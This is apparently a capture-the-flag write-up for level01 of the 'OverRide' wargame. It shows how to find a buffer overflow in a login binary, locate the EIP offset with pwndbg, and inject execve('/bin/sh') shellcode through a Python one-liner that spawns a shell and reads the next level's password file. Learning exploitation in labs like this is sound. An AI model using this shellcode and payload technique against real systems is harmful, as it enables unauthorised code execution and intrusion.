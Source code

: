 # level01

This level is an introduction to the buffer overflow exploits.
Let's use *Cutter* to decompile [level01](./source.c).

Here there isn't an easy solution like a `system(/bin/sh)` lying around.
We will have to do the dirty work ourselves.

If we look around in `main`, we can quickly identify our attack surfaces:

```c
fgets(a_user_name, 0x100, stdin);
fgets(s, 0x64, stdin);
```

`a_user_name` is a global variable with enough space to store user input.
`s` is a local buffer in main — I took the liberty of naming it `s`.

These inputs are used in `verify_user_name` and `verify_user_pass`, respectively, where they are compared to hardcoded values:

```c
// verify_user_name
strncmp(a_user_name, "dat_wil", 7);

// verify_user_pass
strncmp(s, "admin", 5);
```

We can easily bypass these checks and even input additional bytes.
`strncmp` only checks the first 7 characters in `verify_user_name`, and the first 5 in `verify_user_pass`.

Now, let's focus on `s`:
`sizeof(s) == 0x40`, but the second `fgets` allows up to 0x64 bytes to be read into it.
This mean we can perform a BOF (Buffer Overflow)!

Let's find the offset to `EIP` using *pwndbg* and a pattern generator:

```bash
pwndbg level01

pwndbg> r
Starting program: level01
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

Using this address and our pattern generator, we can find the offset is **80 bytes**.

Next, we need a known address with available memory to store our shellcode.
Remember our friend `a_user_name` and 0x100 bytes of space?
Let's find its address using *ltrace*:

```bash
ltrace ./level01
__libc_start_main([ "./level01" ] <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
)                                                                           = 39
printf("Enter Username: ")                                                  = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)                                               = 0x0804a040
```

Now we have our buffer at `0x0804a040`.
Our shellcode will be stored at `0x0804a047` (`0x0804a040` + 7 bytes for the username).

Let's craft our payload:

- Username: `"dat_wil"`
- Shellcode: `"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"`
- Newline to terminate the first `fgets`: `"\n"`
- 80 bytes of junk to reach `EIP`: `"a" * 80`
- Address of our shellcode: `"\x47\xa0\x04\x08"`

Put together in a python one-liner:
`python -c 'print("dat_wil" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\n" + "a" * 80 + "\x47\xa0\x04\x08")'`

If we combine that with a `cat -` to keep `stdin` open, and pipe it to `level01`, we get:

```bash
(cat <(python -c 'print("dat_wil" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\n" + "a" * 80 + "\x47\xa0\x04\x08")') -) | ./level01
```

Let's try it and grab the flag:

```bash
level01@OverRide:~$ (cat <(python -c 'print("dat_wil" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\n" + "a" * 80 + "\x47\xa0\x04\x08")') -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02

cat /home/users/level02/.pass
<flag>
```
